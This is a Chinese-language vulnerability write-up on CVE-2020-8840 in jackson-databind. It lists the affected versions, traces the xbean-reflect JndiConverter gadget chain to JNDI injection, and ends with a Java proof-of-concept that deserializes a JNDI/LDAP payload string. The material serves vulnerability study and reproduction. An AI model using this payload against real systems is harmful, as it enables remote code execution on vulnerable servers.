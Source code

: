 # CVE-2020-8840 FasterXML jackson-databind 远程代码执行漏洞

### 一、漏洞简介

FFasterXML/jackson-databind是一个用于JSON和对象转换的Java第三方库，可将Java对象转换成json对象和xml文档，同样也可将json对象转换成Java对象。

此次漏洞中攻击者可利用xbean-reflect的利用链触发JNDI远程类加载从而达到远程代码执行。

### 二、漏洞影响

jackson-databind 2.0.0 – 2.9.10.2

经验证fastjson在开启了autoType功能的情况下，影响最新的fastjson v1.2.62版本

### 三、复现过程

可以在git提交记录中清楚看到利用的具体类

![](images/15890245585316.png)


分析下利用链，通过传进参数asText，触发setter，setAsText()函数

![](images/15890245668475.png)


随后跟进toObject()函数

![](images/15890245761481.png)


最终进到JndiConverter重写的toObjectImp()函数

![](images/15890245886279.png)


此时出现经典的JNDI注入，text 刚好就是我们传进的asText，我们可控，从而达到命令执行目的

![](images/15890245973710.png)


**poc**


```
import com.fasterxml.jackson.databind.ObjectMapper;
import java.io.IOException;

public class Poc {
    public static void main(String args[]) {
        ObjectMapper mapper = new ObjectMapper();

        mapper.enableDefaultTyping();

        String json = "[\"org.apache.xbean.propertyeditor.JndiConverter\", {\"asText\":\"ldap://localhost:1389/ExportObject\"}]";

        try {
            mapper.readValue(json, Object.class);
        } catch (IOException e) {
            e.printStackTrace();
        }

    }
}
```